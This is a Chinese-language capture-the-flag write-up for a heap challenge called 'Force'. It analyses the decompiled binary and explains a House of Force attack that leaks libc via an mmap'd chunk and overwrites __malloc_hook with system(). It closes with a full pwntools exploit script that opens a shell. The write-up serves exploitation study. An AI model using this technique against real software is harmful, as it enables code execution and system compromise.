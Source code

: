 # 新春战“疫” 第一天 Force

### 0x0 前置补偿

这道题用到了House of Force，

贴一个讲解House of XXXX系列的[讲解](https://sploitfun.wordpress.com/tag/house-of-force/)

### 0x1 分析

看一下安全性:

```shell
➜  force checksec pwn
[*] './pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

跟上一道题一样基本都开着。看一下程序函数，其实并不复杂。

`main()`:

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  __int64 choice; // rax
  char s; // [rsp+10h] [rbp-110h]
  unsigned __int64 v5; // [rsp+118h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  memset(&s, 0xFF, 0x100uLL);
  while ( 1 )
  {
    memset(&s, 255, 0x100uLL);
    puts("1:add");
    puts("2:puts");
    read(0, data, 0xFuLL);
    choice = atol(data);
    if ( choice == 1 )
    {
      add();
    }
    else if ( choice == 2 )
    {
      show();
    }
  }
}
```

直接给出一个菜单，只有两个功能，一个`add()`函数，一个`show()`函数。

`show()`:

```c
unsigned __int64 show()
{
  unsigned __int64 v0; // ST08_8

  v0 = __readfsqword(0x28u);
  puts(&byte_D93);
  return __readfsqword(0x28u) ^ v0;
}
```

这个函数我没找到任何可以利用的地方。单纯地输出一个空行。

`add()`:

```c
unsigned __int64 add()
{
  void **v0; // ST00_8
  char *ptr; // [rsp+0h] [rbp-120h]
  __int64 size; // [rsp+8h] [rbp-118h]
  char s; // [rsp+10h] [rbp-110h]
  unsigned __int64 v5; // [rsp+118h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  memset(&s, 255, 0x100uLL);
  for ( ptr = (char *)&noteList; *(_QWORD *)ptr; ptr += 8 )
    ;
  if ( ptr - (char *)&noteList > 0x27 )
    exit(0);
  puts("size");
  read(0, data, 0xFuLL);
  size = atol(data);
  *(_QWORD *)ptr = malloc(size);
  if ( !*(_QWORD *)ptr )
    exit(0);
  printf("bin addr %p\n", *(_QWORD *)ptr, ptr, size);
  puts("content");
  read(0, *v0, 0x50uLL);
  puts("done");
  return __readfsqword(0x28u) ^ v5;
}
```

这里发现它是十分符合House of Force的条件的：

- 由于可以每次可以向申请的堆输入`0x50`大小的内容，只要申请的堆小于`0x50`就可以溢出。就可以修改top chunk的head。
- 可以申请任意大小的堆
- 这个函数还送给了我们堆的地址。

那么问题来了，我们需要知道libc的地址。

但是我们知道`mmap`申请出来的内存的地址和libc的基地址之间的距离是固定。

那么我们可以首先`mmap`一个超级大的堆，比如：`0x1000000`,

我们就可以知道调试出偏移量了：

![](vmmap.png)

我们可以算出来偏移量：`distance = 0x1000ff0`

那么接下来就直接House of Force了。

在需要的第三个块里放入`system()`函数的地址，最后在进入一次`add()`函数在`size`变量填入`/bin/sh`的地址(需要注意的是，这里不需要编码成字节流)。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

p = process('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
distance = 0x1000ff0
def debug(p, cmd):
  '''cmd = 'b *%d' %(proc_base+breakaddr)'''
  gdb.attach(p, cmd)
  pause()

def add(p, size, content):
  p.sendlineafter("2:puts\n", '1')
  p.sendlineafter("size\n", str(size))
  p.recvuntil("bin addr ")
  heap = eval(p.recv(14))
  p.sendafter("content\n", content)
  return heap

libc_base = add(p, 0x1000000, 'aaaaa') + distance
malloc_hook = libc_base + libc.symbols['__malloc_hook']
system_addr = libc_base + libc.symbols['system']
sh_addr = libc_base + libc.search('/bin/sh').next()
print hex(libc_base)
pause()
# debug(p, 'print system\n')

payload = 'a'*0x10 + p64(0) + p64(0xFFFFFFFFFFFFFFFF)
top_chunk = add(p, 0x10, payload) + 0x10
offset = malloc_hook - 0x10 - top_chunk - 0x10 
add(p, offset, 'aaaaa')
payload = p64(system_addr)*2
add(p, 0x10, payload)

p.sendlineafter("2:puts\n", '1')
p.sendlineafter('size\n', str(sh_addr))
p.interactive()
```

